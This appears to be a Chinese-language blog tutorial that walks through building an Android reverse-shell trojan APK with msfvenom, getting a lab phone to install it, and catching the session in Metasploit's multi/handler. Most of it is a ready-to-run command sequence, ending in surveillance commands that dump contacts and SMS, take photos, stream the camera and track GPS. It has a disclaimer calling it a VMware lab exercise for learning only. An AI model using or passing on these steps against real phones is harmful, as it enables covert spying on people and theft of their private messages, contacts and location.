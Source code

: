  本文实验旨在简单介绍下使用 kali 渗透测试局域网手机，实验环境均在VMware虚拟机内，并无涉及真实IP地址。若因传播或利用本文所提供的信息而造成任何直接或间接的后果，均由使用者本人负责，作者不为此承担任何责任！

 

测试环境如下：

kali虚拟机：攻击机。
win10中间机：用于将kali生成的远程木马发送到Android手机中。
Android手机：靶机。
Xshell4：用于将在kali上生成的远程木马从kali中导到win10中间机中。

 

下面开始：

打开kali利用msfvenom生成木马文件，payload选择android/meterpreter/reverse_tcp，后接Kali虚拟机IP地址和端口，指令如下：

msfvenom -p android/meterpreter/reverse_tcp LHOST=Kali虚拟机IP地址 LPORT=端口 R > /root/android.apk
（记住上面输入的这个端口，这里暂且标注为端口A，因为最后需要用到这个端口。）

之后可以用 ls 指令查看生成的文件（android.apk）。

后面，利用win10中的Xshell4将kali中生成的android.apk传送到指定路径，让Android靶机安装，如下所示：

下面是设置为kali的名字、kali虚拟机的IP地址和端口：



下面是指定文件（android.apk）的路径：



用 sz 文件名这个指令，将文件传到指定路径，如下所示：

sz android.apk
传送该文件是为了方便靶机安装，传送完成之后，让靶机安装该 android.apk 文件，待目标靶机上安装完成后，在 kali 启动 msfconsole 如下所示（开启并使用 msf 中监听）：

msfconsole
用以下指令加载模块：

use exploit/multi/handler
选择 payload 如下所示：

set payload android/meterpreter/reverse_tcp
最后，分别使用以下指令，即可开始执行漏洞，开启监听等待目标上线：

set LHOST kali虚拟机IP地址
set LPORT 端口A(就是一开始生成android.apk时所填入的端口)
exploit
现在，在目标手机上点一下文件，该文件是没有页面的，但是点一下就已经成功建立攻击会话了，kali提示如下：



成功拿到msf中会建立会话后，执行如下指令查看系统信息：

sysinfo
执行如下指令查看安装app文件：

app_list
执行如下指令检测系统root：

check_root
执行如下指令下载通讯录信息：

dump_contacts
执行如下指令获取摄像头信息：

webcam_list
执行如下指令开启摄像头：

webcam_stream
执行如下指令远程控制对方手机拍摄一张照片：

webcam_snap
用如下指令远程控制对方手机开起视频聊天：

webcam_chat
用如下指令实时查看对方手机的信息：

dump_sms
用如下指令实时获取对方手机GPS定位：

geolocate
本文到这里就结束了。

总结，我的教学仅供大家学习使用，希望可以对kali linux有一些心得，切莫用于违法用途。
